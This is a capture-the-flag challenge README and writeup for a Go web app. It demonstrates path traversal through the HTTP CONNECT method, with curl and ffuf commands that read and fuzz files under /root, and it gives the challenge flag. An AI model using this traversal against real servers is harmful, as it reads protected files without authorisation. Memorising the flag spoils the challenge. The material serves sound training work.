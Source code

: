 # Curly Fry

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/blob/main/Web/Curly%20Fry/INSTALL.md)

### Description
Who needs Flask when you have Golang -- the new meta for web apps. Check out this super slick and functional website. 

### Difficulty
Easy

### Flag
`PCTF{tru5t_m3_im_4_ch3f}`

### Hints
1. Golang path traversal
2. Fuzz /root directory for file name

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This is a path travesal/fuzzing challenge. In golang, the library `net/http` usually transforms the path to a canonical one before accessing it:
```
/flag/   -- Is responded with a redirect to /flag
/../flag -- Is responded with a redirect to /flag
/flag/.  -- Is responded with a redirect to /flag
```
However, when the CONNECT method is used this doesn't happen. So, if you need to access some protected resource you can abuse this trick: 
`curl --path-as-is -X CONNECT http://gofs.web.jctf.pro/../flag`

Above text copied from: https://book.hacktricks.xyz/pentesting/pentesting-web/golang

We know the flag is in the `/root` directory but we do not know the file name. We can fuzz this:

```console
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://localhost/../../../../../../../root/FUZZ -e .txt -X CONNECT -c -fs 50

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : CONNECT
 :: URL              : http://localhost/../../../../../../../root/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 50
________________________________________________

recipe.txt              [Status: 200, Size: 429, Words: 68, Lines: 15]
```

The `-fs 50` filters out all responses where the response size is 50. If you fuzz without a filter, you will see a `Status: 200, Size: 50` for every fuzzing attempt, which is just the default web server response: `The path provided is not a file or does not exist.` Thus, we filter out those responses.

We saw that `recipe.txt` was a hit, so let's curl it.

```console
$ curl --path-as-is -X CONNECT http://localhost/../../../../../../../root/recipe.txt
Ingredients: for 2 servings
- 2 curly potatoes
- 2 tablespoons of old bay seasoning
- ketchup and malt vinegar

Preparation
1. Preheat oven to 420°F
2. Slice the potatoes with a knife as they are already curly to begin with
3. Put your seasoning on em
4. Just throw them into the oven
5. Bake until they look good, idk.
6. Put ketchup on a plate and stir in a little malt vinegar
7. Enjoy!
8. Get flag: PCTF{tru5t_m3_im_4_ch3f}
```
